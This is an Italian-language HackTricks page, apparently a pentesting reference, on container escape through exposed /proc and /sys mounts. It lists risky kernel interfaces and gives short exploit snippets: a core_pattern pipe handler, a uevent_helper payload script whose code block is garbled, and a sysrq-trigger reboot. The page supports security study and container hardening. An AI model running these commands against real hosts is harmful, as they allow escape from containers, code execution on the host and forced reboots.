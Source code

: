 # Mount sensibili

<details>

<summary><strong>Impara l'hacking AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team AWS di HackTricks)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>

<figure><img src="../../../..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

L'esposizione di `/proc` e `/sys` senza un'adeguata isolamento dei namespace introduce rischi significativi per la sicurezza, inclusa l'espansione della superficie di attacco e la divulgazione di informazioni. Queste directory contengono file sensibili che, se configurati in modo errato o accessibili da un utente non autorizzato, possono portare alla fuga del container, alla modifica dell'host o fornire informazioni che facilitano ulteriori attacchi. Ad esempio, il montaggio non corretto di `-v /proc:/host/proc` può eludere la protezione di AppArmor a causa della sua natura basata sul percorso, lasciando `/host/proc` non protetto.

**Puoi trovare ulteriori dettagli su ciascuna vulnerabilità potenziale in** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## Vulnerabilità di procfs

### `/proc/sys`

Questa directory consente l'accesso per modificare le variabili del kernel, di solito tramite `sysctl(2)`, e contiene diverse sottodirectory di interesse:

#### **`/proc/sys/kernel/core_pattern`**

* Descritto in [core(5)](https://man7.org/linux/man-pages/man5/core.5.html).
* Consente di definire un programma da eseguire alla generazione del file core con i primi 128 byte come argomenti. Ciò può portare all'esecuzione di codice se il file inizia con un pipe `|`.
*   **Esempio di test ed exploit**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Test di accesso in scrittura
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Imposta un gestore personalizzato
sleep 5 && ./crash & # Attiva il gestore
```

#### **`/proc/sys/kernel/modprobe`**

* Dettagliato in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Contiene il percorso al caricatore di moduli del kernel, invocato per il caricamento dei moduli del kernel.
*   **Esempio di controllo dell'accesso**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # Controlla l'accesso a modprobe
```

#### **`/proc/sys/vm/panic_on_oom`**

* Citato in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Un flag globale che controlla se il kernel va in panico o invoca l'OOM killer quando si verifica una condizione OOM.

#### **`/proc/sys/fs`**

* Come da [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html), contiene opzioni e informazioni sul file system.
* L'accesso in scrittura può consentire vari attacchi di negazione del servizio contro l'host.

#### **`/proc/sys/fs/binfmt_misc`**

* Consente di registrare interpreti per formati binari non nativi in base al loro numero magico.
* Può portare a un'escalation dei privilegi o all'accesso alla shell di root se `/proc/sys/fs/binfmt_misc/register` è scrivibile.
* Esploito e spiegato in modo dettagliato:
* [Rootkit fai-da-te tramite binfmt\_misc](https://github.com/toffan/binfmt\_misc)
* Tutorial approfondito: [Link al video](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Altri in `/proc`

#### **`/proc/config.gz`**

* Potrebbe rivelare la configurazione del kernel se `CONFIG_IKCONFIG_PROC` è abilitato.
* Utile per gli attaccanti per identificare vulnerabilità nel kernel in esecuzione.

#### **`/proc/sysrq-trigger`**

* Consente di invocare comandi Sysrq, causando potenzialmente riavvii immediati del sistema o altre azioni critiche.
*   **Esempio di riavvio dell'host**:

```bash
echo b > /proc/sysrq-trigger # Riavvia l'host
```

#### **`/proc/kmsg`**

* Espone i messaggi del buffer circolare del kernel.
* Può aiutare negli exploit del kernel, nelle fughe di indirizzi e nel fornire informazioni sensibili sul sistema.

#### **`/proc/kallsyms`**

* Elenca i simboli esportati dal kernel e i loro indirizzi.
* Fondamentale per lo sviluppo di exploit del kernel, specialmente per superare KASLR.
* Le informazioni sugli indirizzi sono limitate con `kptr_restrict` impostato su `1` o `2`.
* Dettagli in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/[pid]/mem`**

* Interfaccia con il dispositivo di memoria del kernel `/dev/mem`.
* Storicamente vulnerabile agli attacchi di escalation dei privilegi.
* Maggiori dettagli in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/kcore`**

* Rappresenta la memoria fisica del sistema in formato core ELF.
* La lettura può rivelare i contenuti della memoria dell'host e di altri container.
* Le dimensioni del file possono causare problemi di lettura o crash del software.
* Utilizzo dettagliato in [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/).

#### **`/proc/kmem`**

* Interfaccia alternativa per `/dev/kmem`, rappresentante la memoria virtuale del kernel.
* Consente la lettura e la scrittura, quindi la modifica diretta della memoria del kernel.

#### **`/proc/mem`**

* Interfaccia alternativa per `/dev/mem`, rappresentante la memoria fisica.
* Consente la lettura e la scrittura, la modifica di tutta la memoria richiede la risoluzione degli indirizzi virtuali in fisici.

#### **`/proc/sched_debug`**

* Restituisce informazioni sulla pianificazione dei processi, eludendo le protezioni dello spazio dei PID.
* Espone nomi dei processi, ID e identificatori cgroup.

#### **`/proc/[pid]/mountinfo`**

* Fornisce informazioni sui punti di mount nel namespace di mount del processo.
* Espone la posizione del `rootfs` o dell'immagine del container.

### Vulnerabilità di `/sys`

#### **`/sys/kernel/uevent_helper`**

* Usato per gestire i `uevent` dei dispositivi del kernel.
* Scrivere su `/sys/kernel/uevent_helper` può eseguire script arbitrari al verificarsi di `uevent` triggers.
*   **Esempio di exploit**: %%%bash

#### Crea un payload

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

#### Trova il percorso dell'host dal mount OverlayFS per il container

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

#### Imposta uevent\_helper su un helper malizioso

echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

#### Attiva un uevent

echo change > /sys/class/mem/null/uevent

#### Legge l'output

cat /output %%%
#### **`/sys/class/thermal`**

* Controlla le impostazioni della temperatura, potenzialmente causando attacchi DoS o danni fisici.

#### **`/sys/kernel/vmcoreinfo`**

* Rilascia gli indirizzi del kernel, compromettendo potenzialmente il KASLR.

#### **`/sys/kernel/security`**

* Contiene l'interfaccia `securityfs`, permettendo la configurazione dei Moduli di Sicurezza Linux come AppArmor.
* L'accesso potrebbe consentire a un container di disabilitare il suo sistema MAC.

#### **`/sys/firmware/efi/vars` e `/sys/firmware/efi/efivars`**

* Espone interfacce per interagire con le variabili EFI nella NVRAM.
* Una errata configurazione o sfruttamento può portare a laptop bloccati o macchine host non avviabili.

#### **`/sys/kernel/debug`**

* `debugfs` offre un'interfaccia di debug "senza regole" al kernel.
* Storia di problemi di sicurezza dovuti alla sua natura non limitata.

### References

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<figure><img src="../../../..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>Impara l'hacking AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
